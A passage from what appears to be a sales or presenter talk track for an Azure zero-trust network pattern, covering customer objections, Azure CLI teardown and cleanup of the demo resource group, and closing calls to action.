**Address VPN/Remote Access Concerns**: "If developers work remotely, they'll need VPN or Azure Bastion to access Private Endpoint resources. This is by design—remote access should be controlled, not wide open to the internet."

**Mitigation**: "For dev/test environments, you can enable public access with IP allow lists as a temporary measure while training teams on VPN workflows."

---

### Objection 4: "This seems complex. Our team doesn't have networking expertise."

**Response**: "That's why this is infrastructure as code. You don't need to be a networking expert. The Bicep template encodes best practices. You deploy with one command. The complexity is abstracted."

**Training Path**: "Microsoft Learn offers free training paths for Azure networking. Your team can upskill in 10-20 hours. Meanwhile, this pattern gives you production-ready security out of the box."

**Managed Services**: "If you need ongoing support, Azure also offers managed services where Microsoft operates your firewall and NSGs for you."

---

### Objection 5: "We're migrating to Kubernetes. Is this pattern relevant?"

**Response**: "Absolutely. Replace App Service with AKS (Azure Kubernetes Service) in the application subnet. The same NSG, Private Endpoint, and WAF controls apply. You'd add Azure CNI for pod-level networking and integrate with Azure Policy for Kubernetes admission control."

**AKS-Specific Benefits**: "With AKS, you can also use Azure Policy to enforce that all pods communicate via service mesh with mutual TLS. That adds another zero trust layer at the application level."

---

### Objection 6: "How does this handle multi-region deployments?"

**Response**: "You deploy this pattern in each region. Use Azure Front Door or Traffic Manager in front of regional Application Gateways for global load balancing. Private Endpoints support cross-region connectivity, so your US application can access EU storage via Private Link."

**Compliance Consideration**: "For data sovereignty, keep Private Endpoints in the same region as data sources. NSG rules prevent cross-region data flows if required by regulations."

---

### Objection 7: "What if Application Gateway goes down?"

**Response**: "Application Gateway is zone-redundant in this pattern, deployed across 3 availability zones with 99.95% SLA. That's ~4 hours downtime per year. For higher availability, deploy active-active gateways in paired regions with Traffic Manager health checks."

**Disaster Recovery**: "If a region fails, redeploy this Bicep template in a secondary region in 15 minutes. Because configuration is in source control, disaster recovery is fast and repeatable."

---

### Objection 8: "Our compliance officer wants evidence this meets [specific framework]."

**Response**: "This pattern aligns with SOC 2, PCI-DSS, HIPAA, FedRAMP, and ISO 27001. The architecture implements controls for access restriction, traffic inspection, least privilege, and audit logging—core requirements across all frameworks."

**Provide Documentation**: "Azure provides compliance blueprints and attestation reports. You can reference Azure's certifications and map this architecture to specific control requirements. I can help you draft a compliance matrix showing how each component addresses your framework."

---

## 15. Teardown & Cleanup

**When to Tear Down**:
- Demo or proof-of-concept complete
- Migrating to production subscription
- Decommissioning environment
- Cost optimization exercise

**Pre-Teardown Checklist**:

1. **Export Configurations**:
```bash
# Backup NSG rules
az network nsg show -g $RESOURCE_GROUP -n ${PREFIX}-app-nsg -o json > nsg-backup.json

# Backup Firewall policies (if deployed)
az network firewall policy show -g $RESOURCE_GROUP -n ${PREFIX}-fw-policy -o json > firewall-backup.json

# Backup Application Gateway config
az network application-gateway show -g $RESOURCE_GROUP -n ${PREFIX}-appgw -o json > appgw-backup.json
```

2. **Archive Logs**:
```bash
# Export last 30 days of logs from Log Analytics
# This ensures compliance retention requirements are met even after teardown
```

3. **Document Lessons Learned**:
- What worked well?
- What configuration changes were needed?
- What alerts triggered false positives?

**Teardown Command**:

```bash
# Delete entire resource group (fastest method)
az group delete --name $RESOURCE_GROUP --yes --no-wait

# Estimated deletion time: 10-15 minutes
# --no-wait returns immediately; deletion continues in background
```

**Verify Deletion**:
```bash
# Check deletion status
az group exists --name $RESOURCE_GROUP
# Returns: false (when complete)
```

**Cost Stops Immediately**: Once resources are deleted, billing stops. Prorated charges apply for partial month usage.

**Alternative: Selective Teardown** (if keeping some resources):

```bash
# Delete only Application Gateway (most expensive component)
az network application-gateway delete -g $RESOURCE_GROUP -n ${PREFIX}-appgw

# Delete Azure Firewall
az network firewall delete -g $RESOURCE_GROUP -n ${PREFIX}-fw

# Keep VNet, NSGs, and Private Endpoints (minimal cost)
```

**Post-Teardown Validation**:

1. Verify resource group is deleted:
```bash
az group list --query "[?name=='$RESOURCE_GROUP']" -o table
# Should return empty
```

2. Check Azure Portal billing:
- Navigate to Cost Management + Billing
- Verify no ongoing charges for deleted resources
- Check for orphaned resources (Public IPs, NICs)

**Common Teardown Issues**:

| Issue | Cause | Resolution |
|-------|-------|------------|
| Resource group deletion fails | Resources locked or dependencies exist | Check for resource locks: `az lock list -g $RESOURCE_GROUP` |
| Public IP not deleted | Still associated with resource | Disassociate manually: `az network public-ip delete` |
| Private Endpoints remain | DNS records cached | Wait 5 minutes for DNS TTL expiration |

**Final Step**: Update documentation that this environment has been decommissioned to prevent confusion.

---

**End of Talk Track**

**Next Steps for Audience**:
1. Review Bicep template in repository
2. Deploy to dev subscription for hands-on experience
3. Schedule architecture review with security team
4. Plan phased production rollout
5. Engage Microsoft FastTrack (free for eligible customers) for deployment support

**Questions to Leave Audience Asking**:
- What workloads should we migrate to zero trust first?
- How can we measure risk reduction after deployment?
- What additional Azure security services integrate with this pattern (e.g., Sentinel, Defender for Cloud)?

**Call to Action**: "Let's schedule a 30-minute working session to map your current architecture to this zero trust pattern and identify quick wins."
